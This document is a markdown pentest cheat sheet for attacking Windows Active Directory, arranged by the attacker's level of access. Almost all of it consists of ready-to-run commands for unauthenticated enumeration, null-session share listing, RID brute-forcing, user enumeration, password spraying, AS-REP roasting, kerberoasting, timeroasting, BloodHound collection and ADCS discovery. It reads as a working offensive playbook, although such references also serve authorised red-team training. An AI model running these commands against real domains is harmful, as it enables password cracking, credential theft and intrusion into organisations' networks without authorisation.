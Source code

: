 ```yaml
---
icon: windows
---
```


# Active Directory

## No credentials

### Enumeration

```sh
netexec smb <target>
enum4linux -a <target>
nmap -n -sV --script "ldap* and not brute" -p 389 <dc_ip>
ldapsearch -x -H <dc_ip> -s base
```

### Zone transfer

{% code overflow="wrap" %}
```sh
dig axfr <domain> @<dc_ip>
```
{% endcode %}

### Shares

```bash
netexec smb <IP> -u '' -p '' --shares
netexec smb <IP> -u 'guest' -p '' --shares
```

### Enumerate users

{% code overflow="wrap" %}
```sh
nxc smb <dc_ip> --users
nxc smb <dc_ip> --rid-brute 10000
```
{% endcode %}

```bash
kerbrute userenum -d <domain> <users.txt>
```

### Timeroast

{% code overflow="wrap" %}
```sh
timeroast.py <dc_ip>
```
{% endcode %}

## Valid user (no password)

### Password spray

{% code overflow="wrap" %}
```sh
nxc smb <dc_ip> -u <users.txt> -p <passwords.txt> --no-bruteforce --continue-on-success
```
{% endcode %}

### ASREProast <a href="#asreproast" id="asreproast"></a>

{% code overflow="wrap" %}
```sh
nxc ldap <dc_ip> -u <users.txt> -p '' --asreproast <output.txt>
```
{% endcode %}

{% code overflow="wrap" %}
```bash
GetNPUsers.py <domain>/ -usersfile <users.txt>
```
{% endcode %}

### Blind Kerberoast

{% code overflow="wrap" %}
```sh
GetUserSPNs.py -no-preauth '<asrep_user>' -usersfile <users.txt> -dc-host <dc_ip> <domain>/
```
{% endcode %}

## Valid credentials

### List all users

{% code overflow="wrap" %}
```sh
nxc smb <dc_ip> -u '<user>' -p '<password>' --users
```
{% endcode %}

### Enumerate SMB shares

{% code overflow="wrap" %}
```sh
nxc smb <dc_ip> -u '<user>' -p '<password>' -M spider_plus
```
{% endcode %}

{% code overflow="wrap" %}
```sh
smbclient.py '<user>:<passwod>@<dc_ip>'
```
{% endcode %}

### BloodHound

{% code overflow="wrap" %}
```sh
bloodhound-ce-python -d '<domain>' -u '<user>' -p '<password>' [-ns '<dc_ip>'] -c All --zip
```
{% endcode %}

### Enumerate LDAP

{% code overflow="wrap" %}
```sh
ldapdomaindump.py -u '<domain>\<user>' -p '<password>' -o <output_folder> '<dc_ip>'
```
{% endcode %}

### Enumerate ADCS

{% code overflow="wrap" %}
```sh
certipy find -u '<user>@<domain>' -p '<password>' -dc-ip '<dc_ip>' -stdout
```
{% endcode %}

### Kerberoast

{% code overflow="wrap" %}
```bash
nxc ldap <dc_ip> -u '<user>' -p '<password>' --kerberoasting <output.txt>
```
{% endcode %}

{% code overflow="wrap" %}
```sh
GetUserSPNs.py -request [-dc-ip <dc_ip>] '<domain>/<user>:<password>'
```
{% endcode %}

{% hint style="danger" %}
If you find this error from Linux: `KRB_AP_ERR_SKEW(Clock skew too great)` it's because of your local time, you need to synchronise the host with the DC.

{% code overflow="wrap" fullWidth="false" %}
```bash
sudo ntpdate <target>
```
{% endcode %}
{% endhint %}

